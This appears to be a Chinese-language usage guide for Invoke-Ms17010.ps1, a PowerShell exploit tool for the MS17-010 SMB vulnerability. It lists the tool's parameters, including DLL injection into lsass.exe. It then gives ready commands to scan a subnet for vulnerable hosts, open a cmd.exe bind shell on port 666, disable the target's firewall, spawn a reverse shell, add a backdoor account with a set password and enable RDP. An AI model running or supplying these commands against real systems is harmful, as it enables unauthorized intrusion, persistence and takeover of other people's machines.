


原生脚本的快速使用

```
-m //加载模版
-process //指定要注入DLL的进程 默认为lsass.exe
-Port //指定攻击端口 默认445
-x //指定要攻击系统位数
-fs //批量探测内网是否存在ms17010
-target //指定扫描的IP段
```


批量监测是否包含MS17010漏洞

```
Import-Moudle .\Invoke-Ms17010.ps1
checkMS -fs 1 -target 172.16.224.0-172.16.224.255
```


Check目标（必须执行 如果目标为XP系统则需要将OS指定为0，如果非XP系统则将OS指定为1），如果利用成功则返回系统位数，执行结果如下图所示

```
Import-Moudle .\Invoke-Ms17010.ps1
checkMS -target 172.16.224.15 -OS 1
```



使用如下命令，可以在目标的666端口上面开启一个cmd.exe的监听并用NC进行连接

```
Import-Moudle .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64
```



如果对方开启了防火墙会导致我们不能直接获取shell，但是我们可以加载firewall模版来关闭目标的防火墙

```
Import-Moudle .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64 -m firewall
```

当然你可以在关闭目标防火墙之后 反弹shell

```
Import-Moudle .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64 -m firewall -process Winlogon.exe -Reshell 1
```

添加用户testoaa HjjLJjj@123

```
Import-Moudle .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64 -m useradd
```

开启3389并在防火墙放通行

```
Import-Moudle .\Invoke-Ms17010.ps1
attackMS -target 172.16.224.15 -x x64 -m openrdp
```

